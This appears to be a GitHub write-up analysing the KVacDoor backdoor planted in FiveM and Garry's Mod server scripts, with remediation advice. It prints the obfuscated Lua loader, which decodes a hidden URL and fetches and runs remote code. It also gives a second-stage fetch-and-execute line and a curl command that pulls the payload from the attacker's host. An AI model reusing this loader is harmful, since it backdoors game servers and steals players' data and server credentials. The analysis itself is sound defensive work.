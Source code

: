 ## 1. Introduction
KVacDoor is a really used FiveM and Garry's Mod server manager, boasting features such as 

> **Lua Script**<br>
The scripting system allows you or the KVacDoor staff to quickly run lua code on your servers.

> **Smart Lua**<br>
Inject your lua codes discreetly in one click in one of your addons with the Smart Lua tool.

The panel's website: https://kvacdoor.cz

Turns out that it's also a backdoor, which uses this code, injected into the server-side of a fivem-script to plant itself inside the server. <br>
It is strongly recommended you read cipher's panel breakdown as the infection method kvac uses is almost identical - https://github.com/ericstolly/cipher/blob/main/chapters/chapter-1-payload.md
```
local Enchanced_Tabs = {
    Ench, Support, Host, Pairs,
    Realease, Callbacks, Source,
    Hosting, Event, PerformHttpRequest,
    assert, server, load, Spawn, materials
}

local random_char = {
    "68", "74", "74", "70", "73", "3a", "2f", "2f", "66", "69", "76", "65", "6d", "2e", "6b", "76",
    "61", "63", "2e", "63", "7a", "2f", "66", "2e", "70", "68", "70", "3f", "6b", "65", "79", "3d",
    "6f", "6a", "6f", "54", "4a", "5a", "57", "65", "50", "52", "6e", "50", "4b", "59", "55", "70", "41", "36", "7a", "34",
}

function str_utf8()
    _empt = ""
    for id,it in pairs(random_char) do
        _empt = _empt..it
    end
    return (_empt:gsub("..", function (cc)
        return string.char(tonumber(cc, 16))
        
    end))
end

Enchanced_Tabs[10](str_utf8(), function (e, d)
    local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
    if (d == nil) then return end
    s()
end)
```
## 2. Code analysis and finding the full payload
As we can see, that is almost the same code that is used by the cipher panel backdoor - 
In short the `random_char` table is a link, which gets interpreted by `str_utf8()`, and then gets run by the last function as an http request on the server, injecting the payload.
Running the code without the last codeblock (which if you look at the `Enchanced_Tabs` table is an http request) in any lua compiler (https://onecompiler.com/lua/42d7ex7dx)
and appending `print(str_utf8)` to it, so we can see what the encoded message is, gives us this link - https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4.

If we cURL the link using the `FXServer/PerformHttpRequest` user-agent, we'd get this:
```
PerformHttpRequest("https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b", function(a, b) if b == nil or b == "" then return end assert(load(b))() end, "POST")
```

You can verify on linux using this command:
`curl https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4 -A "FXServer/PerformHttpRequest"`

As we can see we get more lua code, if we extract the link <br> `https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b`

and translate it to text: <br> `https://fivem.kvac.cz/_/api.php?key=3Rj4lZeyvWJna3PizqOk`

and then cURL *this* link, we will get the payload:

[fivem-payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-payload.lua)

beautifying it a bit we get this

[fivem-beautified payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-beautified-payload.lua)


## 3. Payload explanation
The scripts steals player info like licenses, IPs, identifiers, and also reads the server .cfg, extracting API keys and the rcon password if you have one. <br>
It also overrides the `chatMessage` event and grants the resource the infected script was ran from permissions in the server.cfg - and therefore txAdmin. <br>


## 4. Post-infection measures
It is highly recommended to shutdown the server as soon as the backdoor is installed, as by default it doesn't inject itself outside the server (e.g. the OS) and only in the former 3 locations.
You should reset any API keys and other sensitive information you have put in your server.cfg (like steam API keys, rcon passwords)
Then you should reinstall your chat script, deleting the malicious code from your resource and remove the command access granted in the last lines of the server.cfg.<br>
Unfortunately I can't help if the server's been manually accessed by an adversary after the backdoor was installed, as they could've injected code anywhere and it could be practically impossible to find. Your safest course of action is reinstalling the VPS the server was installed on and using a backup of your server. If you're willing to risk it you can search for suspicious http requests using `grep` or VSCode's Explorer's find but the code can be obfuscated and it's very difficult to find then.
The lesson is - backups are your friend.
